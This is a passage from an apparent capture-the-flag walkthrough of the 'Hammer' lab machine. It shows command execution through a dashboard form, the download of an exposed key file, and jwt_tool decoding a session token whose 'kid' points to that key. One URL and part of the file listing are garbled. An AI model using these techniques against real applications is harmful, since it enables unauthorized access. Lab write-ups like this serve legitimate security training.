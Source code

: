 Or create a Python script that does a similar job, BUT in my tests i have created a bunch of them and none was even close to the speed of ffuf which took only a bunch of seconds and was more stable.

<br/>

### Gaining a Foothold
In the dashboard we can see the first flag and a form where e can insert a command.

We can test is with `ls` and we get list of the files in the current working directory:
```
hammer.thm:1337/
composer.json
config.php
dashboard.php
execute_command.php
hmr_css
hmr_images
hmr_js
hmr_logs
index.php
logout.php
reset_password.php
vendor
```

We can notice that many commands are not allowed.
But when we ran `ls` i have noticed a `.key` file, we cannot read it with `cat` but since it is a file in the same directory as the dashboard we can simply navigate to that 
```
http//hammer.thm:1337/hammer.thm:1337/
```

Now we can download it.

Reading the page-source and then checking the cookies we can see that there is an hard-coded JWT token, let's analyze it:
```bash
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQxNzI1NjgyLCJleHAiOjE3NDE3MjkyODIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Bo2FjxwPdcB7vpUHQZupi4l0qF0-IdfEX7ZyxrNDzjY 
```

```
Token header values:
[+] typ = "JWT"
[+] alg = "HS256"
[+] kid = "/var/www/mykey.key"

Token payload values:                                                                                        
[+] iss = "http://hammer.thm"
[+] aud = "http://hammer.thm"
[+] iat = 1741725682    ==> TIMESTAMP = 2025-03-11 21:41:22 (UTC)
[+] exp = 1741729282    ==> TIMESTAMP = 2025-03-11 22:41:22 (UTC)
[+] data = JSON object:
    [+] user_id = 1
    [+] email = "tester@hammer.thm"
    [+] role = "user"

Seen timestamps:                                                                                             
[*] iat was seen
[*] exp is later than iat by: 0 days, 1 hours, 0 mins

```
